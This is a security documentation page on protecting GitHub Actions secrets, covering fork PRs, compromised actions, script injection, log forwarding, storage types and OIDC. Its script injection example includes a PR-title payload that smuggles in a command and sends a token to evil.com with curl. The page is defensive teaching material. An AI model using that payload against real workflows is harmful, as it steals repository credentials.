

!!! warning "Secrets Leak Through Multiple Vectors"

    GitHub Actions secrets can leak through workflow logs, compromised third-party actions, script injection, and fork PR workflows. Default to OIDC federation to eliminate stored credentials. Never interpolate secrets directly in shell commands.

## Fork PR Safety Pattern

```yaml
# Safe - fork workflows don't get secrets

name: CI
on: [pull_request]  # Fork workflows run without secrets

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1
      - run: npm test  # No secrets available
```

See [Workflow Triggers Security](../../workflows/triggers/index.md) for fork workflow patterns.

### Exposure Vector 3: Compromised Action

**Mechanism**: Third-party action exfiltrates secrets

**Example**:

```yaml
# DANGEROUS - unknown action with secret access
- uses: sketchy-org/deploy-tool@v1
  env:
    AWS_ACCESS_KEY_ID: ${{ secrets.AWS_KEY }}
    AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET }}
```

**Attack**: Malicious or compromised action sends secrets to attacker-controlled server.

**Prevention**: Only use trusted actions, SHA pin everything, minimize secret exposure.

```yaml
# Better - OIDC eliminates stored secrets
permissions:
  id-token: write

- uses: aws-actions/configure-aws-credentials@5fd3084fc36e372ff1fff382a39b10d03659f355  # v2.2.0
  with:
    role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsRole
    aws-region: us-east-1
```

See [Third-Party Action Risk Assessment](../../third-party-actions/index.md) for action evaluation framework.

## Exposure Vector 4: Script Injection

**Mechanism**: Untrusted input injected into shell command

**Example**:

```yaml
# DANGEROUS - PR title controlled by attacker
- run: echo "PR: ${{ github.event.pull_request.title }}"
  env:
    TOKEN: ${{ secrets.GITHUB_TOKEN }}
```

**Attack**: Attacker creates PR with title: `"; curl evil.com?token=$TOKEN #"`

**Result**: Command becomes: `echo "PR: "; curl evil.com?token=$TOKEN #"`

**Prevention**: Never interpolate untrusted input into shell. Use environment variables.

```yaml
# Safe - input passed via environment variable
- run: echo "PR title: $PR_TITLE"
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
    TOKEN: ${{ secrets.GITHUB_TOKEN }}
```

### Exposure Vector 5: Log Aggregation

**Mechanism**: Secrets sent to third-party log aggregation service

**Example**:

```yaml
# Risk - logs forwarded to external service
- run: deploy.sh 2>&1 | tee /dev/stderr
  env:
    SECRET_KEY: ${{ secrets.SECRET_KEY }}
```

**Risk**: If workflow logs forwarded to Datadog, Splunk, or similar, secrets may be stored in third-party systems.

**Prevention**: Audit log forwarding. Ensure secrets masked before external transmission.

## Secret Exposure Attack Surface



## Secret Storage Comparison

| Storage Type | Scope | Access Control | Protection Features | Use Case |
| ------------ | ----- | -------------- | ------------------- | -------- |
| **Repository Secret** | Single repo | All workflows in repo | None | Repo-specific credentials |
| **Organization Secret** | Multiple repos | All/private/selected repos | Repository selection | Shared team credentials |
| **Environment Secret** | Environment | Workflows targeting environment | Required reviewers, wait timer, branch restrictions | Production credentials |
| **OIDC Token** | Workflow runtime | `id-token: write` permission | Cloud provider claim validation, short-lived | Cloud authentication |

## Security Best Practices

**Use environment secrets for production**: Environment protection rules add approval gates and audit trail.

**Prefer OIDC over long-lived credentials**: Eliminates stored secrets, reduces rotation burden, limits blast radius.

**Minimize secret exposure**: Only expose secrets to jobs that need them. Use job-level environment variables.

```yaml
permissions:
  contents: read

jobs:
  deploy:
    environment: production
    steps:
      - run: ./deploy.sh
        env:
          PROD_KEY: ${{ secrets.PROD_KEY }}  # Scoped to this step
```

**Never log secrets**: Avoid echo, printf, or debug output with secret values. Masking is best-effort, not guaranteed.

**Audit secret access**: Use GitHub audit log to track secret changes and access patterns.

**Rotate secrets regularly**: Implement automated rotation for long-lived credentials.

See [Secret Rotation Patterns](../rotation/index.md) for automation workflows.

**Use secret scanning**: Enable push protection to prevent accidental commits.

See [Secret Scanning Integration](../scanning/index.md) for detection and response.

**Restrict pull_request_target**: Only use with extreme caution. Prefer `pull_request` for untrusted code.

**Review workflow changes carefully**: Changes to `.github/workflows/` can exfiltrate secrets. Require security review.

## Next Steps

Ready to implement secure secret management? Continue with:

- **[OIDC Federation Patterns](../oidc/index.md)**: Eliminate stored credentials with secretless cloud authentication (AWS, GCP, Azure)
- **[Secret Rotation Automation](../rotation/index.md)**: Automated rotation workflows, notification patterns, zero-downtime strategies
- **[Secret Scanning Integration](../scanning/index.md)**: Push protection setup, custom patterns, incident response playbook

## Quick Reference

### Secret Type Selection

| Requirement | Use This | Notes |
| ----------- | -------- | ----- |
| **Single repo credentials** | Repository secret | Isolated to one project |
| **Team-wide credentials** | Organization secret (selected repos) | Explicit allowlist required |
| **Production credentials** | Environment secret | Add required reviewers |
| **Cloud authentication** | OIDC token | No stored secrets, preferred |
| **Non-sensitive config** | Configuration variable | Plaintext, not masked |

### Exposure Prevention

| Risk | Mitigation | Effort |
| ---- | ---------- | ------ |
| **Workflow logs** | Never interpolate secrets in commands | Low |
| **Fork PRs** | Use `pull_request`, not `pull_request_target` | Low |
| **Third-party actions** | SHA pin, audit source, use OIDC | Medium |
| **Script injection** | Environment variables, not interpolation | Low |
| **Secret sprawl** | OIDC federation, automated rotation | High |

---

!!! tip "OIDC First, Secrets Only When Necessary"

    Default to OIDC federation for cloud authentication. Stored secrets should be the exception, not the default. Every long-lived credential is a liability waiting to leak.
